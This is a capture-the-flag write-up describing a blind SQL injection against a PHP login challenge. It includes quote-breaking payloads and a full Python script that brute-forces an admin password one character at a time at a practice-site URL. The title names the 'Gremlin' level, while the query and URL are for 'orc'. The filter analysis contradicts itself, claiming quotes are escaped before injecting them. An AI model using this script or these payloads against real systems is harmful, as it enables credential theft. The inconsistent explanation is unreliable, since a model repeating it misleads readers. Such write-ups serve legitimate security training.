 # SQL Injection on Gremlin Challenge

## Challenge Analysis

### Code Review
1. **PHP Code Analysis:**
    - The provided PHP code connects to a database and attempts to authenticate based on an `id` and a parameter `pw`.
    - The code includes checks to prevent certain SQL injection characters, specifically:
        - It blocks keywords like `prob`, `_`, `.`, and `()` by regex matching in the `pw` parameter.
        - It also uses `addslashes()` to escape quotes (`'`, `"`, and `\`), making classic injection techniques more difficult.
    - The query is executed twice:
        - First, to check if the `id` is `admin` and the `pw` matches the input.
    - Second, to verify if the retrieved `pw` matches the input `pw` exactly.
2. **SQL Query Structure:**
    - The SQL query generated is:
    ```sql
    select id from prob_orc where id='admin' and pw='{$_GET[pw]}'
    ```
    - The goal is to bypass the filters and inject SQL into the `pw` parameter to make the query return the `id` of `admin`.

3. **Objective:**
    - Our goal is to extract the pw for the admin account by performing a blind SQL injection. This involves guessing the password character by character.

### Bypass Strategy
1. **Blind SQL Injection:**
    - Since the application does not directly display database errors or data, we need to use a blind SQL injection technique.
    - We can use the `LIKE` operator to guess each character of the password sequentially.
2. **Formulating the Injection Payload:**
    - We can craft a payload that checks if a specific character of the password matches a guessed value:
    ```sql
    ' or id='admin' and substring(pw,1,1)='a' -- 
    ```
    - This payload checks if the first character of the password is `'a'`. If true, the query will return the `id` of `admin`.
3. **Automating the Process:**
    - To efficiently guess the password, we can write a Python script that iterates through possible characters and positions in the password.

## Solution Steps
### Step 1: Determine the Password Length
1. **Payload:**
    - We first need to determine the length of the password. We can use the following payload:
    ```sql
    ' or id='admin' and length(pw)=8 -- 
    ```
    - This checks if the password length is 8 characters.
2. **Script Implementation:**
    - The script iterates through possible lengths and checks for a successful response:
    ```python
    def get_password_length():
        for i in range(1, 20):
            payload = f"' or id='admin' and length(pw)={i} -- "
            params = {"pw": payload}
            response = requests.get(url, params=params, cookies=cookies)
            if "Hello admin" in response.text:
                return i
        return 0
    ```
3. **Result:**
    - The script determines that the password is 8 characters long.
### Step 2: Extract the Password
1. **Payload:**
    - For each character position, we guess the character using the following payload:
    ```sql
    ' or id='admin' and substring(pw,{position},1)='{character}' -- 
    ```
    - This checks if the character at the specified position matches the guessed value.
2. **Script Implementation:**
    - The script iterates through each character position and possible characters:
    ```python
    def get_password(password_length):
        password = ""
        for i in range(1, password_length + 1):
            for char in "0123456789abcdefghijklmnopqrstuvwxyz":
                payload = f"' or id='admin' and substring(pw, {i}, 1)='{char}' -- "
                params = {"pw": payload}
                response = requests.get(url, params=params, cookies=cookies)
                if "Hello admin" in response.text:
                    password += char
                    print(f"Found character {i}: {char}")
                    break
        return password
    ```
3. **Result:**
    - The script successfully extracts the password.
### Step 3: Submit the Password
1. **Payload:**
    - Once the password is known, we submit it to solve the challenge:
    ```sql
    ?pw=<password>
    ```
2. **Script Implementation:**
    - The script submits the password and checks for a success message:
    ```python
    def solve_challenge(password):
        params = {"pw": password}
        response = requests.get(url, params=params, cookies=cookies)
        if "Clear" in response.text:
            print("Challenge solved!")
        else:
            print("Failed to solve the challenge.")
    ```
3. **Result:**
    - The challenge is solved, and the success message is displayed.

## Full Python Script
```python
import requests

# Configuration
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
cookies = {"PHPSESSID": "your_session_id"}  # Replace with your session ID

# Step 1: Determine the password length
def get_password_length():
    for i in range(1, 20):
        payload = f"' or id='admin' and length(pw)={i} -- "
        params = {"pw": payload}
        response = requests.get(url, params=params, cookies=cookies)
        if "Hello admin" in response.text:
            return i
    return 0

# Step 2: Extract the password
def get_password(password_length):
    password = ""
    for i in range(1, password_length + 1):
        for char in "0123456789abcdefghijklmnopqrstuvwxyz":
            payload = f"' or id='admin' and substring(pw, {i}, 1)='{char}' -- "
            params = {"pw": payload}
            response = requests.get(url, params=params, cookies=cookies)
            if "Hello admin" in response.text:
                password += char
                print(f"Found character {i}: {char}")
                break
    return password

# Step 3: Solve the challenge
def solve_challenge(password):
    params = {"pw": password}
    response = requests.get(url, params=params, cookies=cookies)
    if "Clear" in response.text:
        print("Challenge solved!")
    else:
        print("Failed to solve the challenge.")

# Main execution
password_length = get_password_length()
print(f"Password length: {password_length}")

if password_length:
    password = get_password(password_length)
    print(f"Password: {password}")
    solve_challenge(password)
else:
    print("Could not determine password length.")
```

## Conclusion
By analyzing the challenge and using a blind SQL injection technique, we successfully extracted the password and solved the challenge. This approach demonstrates how to bypass filters and automate the extraction of sensitive data using Python.